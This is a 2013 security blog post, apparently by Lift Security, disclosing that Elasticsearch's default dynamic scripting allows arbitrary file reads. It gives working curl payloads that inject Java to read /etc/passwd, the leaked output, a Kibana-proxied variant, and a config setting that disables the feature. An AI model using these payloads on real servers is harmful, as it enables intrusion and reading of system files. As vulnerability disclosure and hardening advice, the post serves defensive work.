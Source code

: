 #date: 2013-11-30 20:33:00 GMT
#slug: elasticsearch-command-execution-using-script
#tumblr_post_url: http://blog.liftsecurity.io/post/68592779657/elasticsearch-command-execution-using-script
#tags: elasticsearch,feature,command execution,script
#title: Elasticsearch Command Execution using \"script\"
#type: text

In the process of trying to full text index all of the source code from node modules within npm for the Node Security Project, I encountered a feature of Elasticsearch that I couldn't stay away from playing with: scripting.  
  
Sometimes the most innocent of features can create a vulnerability. Scripting is enabled by default in Elasticsearch and if left bound to a public interface allows for easy system command execution.  
  
**Elasticsearch**  
  
Here is a simple example to read /etc/passwd  
  

```bash
# Create a document
curl -XPUT :9200/blog/article/1/ -d '{"foo":"bar"}'
```

```bash
# Update it running the provided script. It puts the file contents in the content field.
curl -XPOST :9200/blog/article/1/_update -d '{"script": "ctx._source.content = 1;import java.util.*;import java.io.*;String content=new Scanner(new File("/etc/passwd")).useDelimiter("\\Z").next();ctx._source.content=content"}'
```
  
```bash
# Now get the content
curl :9200/blog/article/1/
```
  
**Result**
```js
{  
"_index" : "blog",  
"_type" : "article",  
"_id" : "2",  
"_version" : 2,  
"exists" : true, "_source" : {"content":"root:x:0:0:root:/root:/bin/bash\ndaemon:x:1:1:daemon:/usr/sbin:/bin/sh\nbin:x:2:2:bin:/bin:/bin/sh\nsys:x:3:3:sys:/dev:/bin/sh\nsync:x:4:65534:sync:/bin:/bin/sync\ngames:x:5:60:games:/usr/games:/bin/sh\nman:x:6:12:man:/var/cache/man:/bin/sh\nlp:x:7:7:lp:/var/spool/lpd:/bin/sh\nmail:x:8:8:mail:/var/mail:/bin/sh\nnews:x:9:9:news:/var/spool/news:/bin/sh\nuucp:x:10:10:uucp:/var/spool/uucp:/bin/sh\nproxy:x:13:13:proxy:/bin:/bin/sh\nwww-data:x:33:33:www-data:/var/www:/bin/sh\nbackup:x:34:34:backup:/var/backups:/bin/sh\nlist:x:38:38:Mailing List Manager:/var/list:/bin/sh\nirc:x:39:39:ircd:/var/run/ircd:/bin/sh\ngnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh\nnobody:x:65534:65534:nobody:/nonexistent:/bin/sh\nlibuuid:x:100:101::/var/lib/libuuid:/bin/sh\nsyslog:x:101:103::/home/syslog:/bin/false\nmessagebus:x:102:105::/var/run/dbus:/bin/false\nlandscape:x:103:108::/var/lib/landscape:/bin/false\nsshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin\nwhoopsie:x:105:109::/nonexistent:/bin/false\nelasticsearch:x:106:113::/usr/share/elasticsearch:/bin/false\nntp:x:107:114::/home/ntp:/bin/false"}  
}
```


  
**Kibana**  
Sometimes Elasticsearch is hidden behind the veil of another service like Kibana. It's still possible to get execution using Kibana, as it essentially proxies our queries straight into Elasticsearch.

```bash
curl 'http://kibana.example.net/logstash-2013.11.11/_search' -X POST -H 'Authorization: Basic eWV0aXM6em9vbXpvb21idXR0ZXI=' -H 'Host: kibana.example.net' -d @script_kibana
```


  
_Contents of @script_kibana_

```js
{"query":{"filtered":{"query":{"bool":{"should":[{"query_string":{"query":"*"}}]}},"filter":{"bool":{"must":[{"match_all":{}},{"range":{"@timestamp":{"from":1384193353299,"to":1384196953300}}},{"bool":{"must":[{"match_all":{}}]}}]}}}},"highlight":{"fields":{},"fragment_size":2147483647,"pre_tags":["@start-highlight@"],"post_tags":["@end-highlight@"]},"size":1,"sort":[{"@timestamp":{"order":"desc"}}],"script_fields": {"uid_in_script": **{"script": "import java.util.*;import java.io.*;String content = new Scanner(new File("/etc/passwd")).useDelimiter("\Z").next();return content;"}**}}
```


  
  
**Avoid having somebody run commands on your Elasticsearch servers**  
  
You can disable this feature by adding the following to your Elasticsearch config file, then restarting the service. Keep in mind that you will want to disable this on all the nodes in your cluster.

```
script.disable_dynamic: true
```


  
Of course if you need to have scripting enabled and don't have your nodes exposed to the outside world I would just recommend that you build your elastisearch payloads very methodically not letting the user specify specifics that end up in the query / update payloads.